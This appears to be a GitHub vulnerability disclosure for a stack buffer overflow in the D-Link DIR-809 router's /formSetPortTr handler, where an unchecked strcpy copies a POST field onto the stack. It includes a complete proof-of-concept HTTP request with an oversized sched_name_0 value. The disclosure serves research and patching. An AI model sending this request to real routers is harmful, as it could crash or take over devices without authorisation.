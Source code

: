 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formSetPortTr` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_80046eb4` ( page `/formSetPortTr` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"sched_name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_1c4`. 

![2021-05-10_10h43_49](README/2021-05-10_10h43_49.png)



## PoC

``` 
POST /formSetPortTr.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3132
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Special_Applications.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=YF608CCB25
Connection: close

settingsChanged=1&curTime=1620559041239&HNAP_AUTH=6946CD2354C87A2E9E189EFFB61EECD9+1620559041&submit-url=%2FAdvanced%2FSpecial_Applications.asp&used_0=0&enabled_0=0&entry_name_0=1321313123123&trigPortRng_0=9090&trigPortPtc_0=6&sched_name_0=aaaaaaaaa*0x200&inputPortRng_0=9091&inputPortPtc_0=6&used_1=0&enabled_1=0&entry_name_1=&trigPortRng_1=&trigPortPtc_1=6&sched_name_1=Always&inputPortRng_1=&inputPortPtc_1=6&used_2=0&enabled_2=0&entry_name_2=&trigPortRng_2=&trigPortPtc_2=6&sched_name_2=Always&inputPortRng_2=&inputPortPtc_2=6&used_3=0&enabled_3=0&entry_name_3=&trigPortRng_3=&trigPortPtc_3=6&sched_name_3=Always&inputPortRng_3=&inputPortPtc_3=6&used_4=0&enabled_4=0&entry_name_4=&trigPortRng_4=&trigPortPtc_4=6&sched_name_4=Always&inputPortRng_4=&inputPortPtc_4=6&used_5=0&enabled_5=0&entry_name_5=&trigPortRng_5=&trigPortPtc_5=6&sched_name_5=Always&inputPortRng_5=&inputPortPtc_5=6&used_6=0&enabled_6=0&entry_name_6=&trigPortRng_6=&trigPortPtc_6=6&sched_name_6=Always&inputPortRng_6=&inputPortPtc_6=6&used_7=0&enabled_7=0&entry_name_7=&trigPortRng_7=&trigPortPtc_7=6&sched_name_7=Always&inputPortRng_7=&inputPortPtc_7=6&used_8=0&enabled_8=0&entry_name_8=&trigPortRng_8=&trigPortPtc_8=6&sched_name_8=Always&inputPortRng_8=&inputPortPtc_8=6&used_9=0&enabled_9=0&entry_name_9=&trigPortRng_9=&trigPortPtc_9=6&sched_name_9=Always&inputPortRng_9=&inputPortPtc_9=6&used_10=0&enabled_10=0&entry_name_10=&trigPortRng_10=&trigPortPtc_10=6&sched_name_10=Always&inputPortRng_10=&inputPortPtc_10=6&used_11=0&enabled_11=0&entry_name_11=&trigPortRng_11=&trigPortPtc_11=6&sched_name_11=Always&inputPortRng_11=&inputPortPtc_11=6&used_12=0&enabled_12=0&entry_name_12=&trigPortRng_12=&trigPortPtc_12=6&sched_name_12=Always&inputPortRng_12=&inputPortPtc_12=6&used_13=0&enabled_13=0&entry_name_13=&trigPortRng_13=&trigPortPtc_13=6&sched_name_13=Always&inputPortRng_13=&inputPortPtc_13=6&used_14=0&enabled_14=0&entry_name_14=&trigPortRng_14=&trigPortPtc_14=6&sched_name_14=Always&inputPortRng_14=&inputPortPtc_14=6&used_15=0&enabled_15=0&entry_name_15=&trigPortRng_15=&trigPortPtc_15=6&sched_name_15=Always&inputPortRng_15=&inputPortPtc_15=6&used_16=0&enabled_16=0&entry_name_16=&trigPortRng_16=&trigPortPtc_16=6&sched_name_16=Always&inputPortRng_16=&inputPortPtc_16=6&used_17=0&enabled_17=0&entry_name_17=&trigPortRng_17=&trigPortPtc_17=6&sched_name_17=Always&inputPortRng_17=&inputPortPtc_17=6&used_18=0&enabled_18=0&entry_name_18=&trigPortRng_18=&trigPortPtc_18=6&sched_name_18=Always&inputPortRng_18=&inputPortPtc_18=6&used_19=0&enabled_19=0&entry_name_19=&trigPortRng_19=&trigPortPtc_19=6&sched_name_19=Always&inputPortRng_19=&inputPortPtc_19=6&used_20=0&enabled_20=0&entry_name_20=&trigPortRng_20=&trigPortPtc_20=6&sched_name_20=Always&inputPortRng_20=&inputPortPtc_20=6&used_21=0&enabled_21=0&entry_name_21=&trigPortRng_21=&trigPortPtc_21=6&sched_name_21=Always&inputPortRng_21=&inputPortPtc_21=6&used_22=0&enabled_22=0&entry_name_22=&trigPortRng_22=&trigPortPtc_22=6&sched_name_22=Always&inputPortRng_22=&inputPortPtc_22=6&used_23=0&enabled_23=0&entry_name_23=&trigPortRng_23=&trigPortPtc_23=6&sched_name_23=Always&inputPortRng_23=&inputPortPtc_23=6
```





## Acknowledgment

Credit to  [@peanuts62](https://github.com/peanuts62), [@Ainevsia](https://github.com/Ainevsia), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

